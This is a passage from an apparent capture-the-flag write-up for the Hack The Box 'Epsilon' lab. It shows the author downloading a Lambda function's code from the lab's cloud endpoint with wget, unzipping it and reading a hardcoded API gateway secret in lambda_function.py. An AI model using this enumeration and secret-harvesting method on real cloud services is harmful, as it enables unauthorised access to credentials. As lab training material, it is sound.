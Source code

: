 ```bash
            "Mode": "PassThrough"
        },
        "RevisionId": "a53bc9e0-7b29-4726-b0c1-3d75d452321f",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    },
    "Code": {
        "Location": "http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code"
    },
    "Tags": {}
}
```

There we have it:
```bash
❯ wget http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code

--2022-07-06 21:43:04--  http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
Resolving cloud.epsilon.htb (cloud.epsilon.htb)... 10.129.96.151
Connecting to cloud.epsilon.htb (cloud.epsilon.htb)|10.129.96.151|:80... connected.
HTTP request sent, awaiting response... 200
Length: 478 [application/zip]
Saving to: ‘code’

code                                 100%[===================================================================>]     478  --.-KB/s    in 0s

2022-07-06 21:43:04 (68.8 MB/s) - ‘code’ saved [478/478]

```

We get a Zip File:
```bash
❯ file code
code: Zip archive data, at least v2.0 to extract, compression method=deflate

❯ unzip code
Archive:  code
  inflating: lambda_function.py
```

And inside **lambda_function.py** we get the secret:
```bash
import json

secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124

'''Beta release for tracking'''
def lambda_handler(event, context):
    try:
        id=event['queryStringParameters']['order_id']
        if id:
            return {
               'statusCode': 200,
               'body': json.dumps(str(resp)) #dynamodb tracking for CR-342
            }
        else:
            return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
    except:
        return {
                'statusCode': 500,
```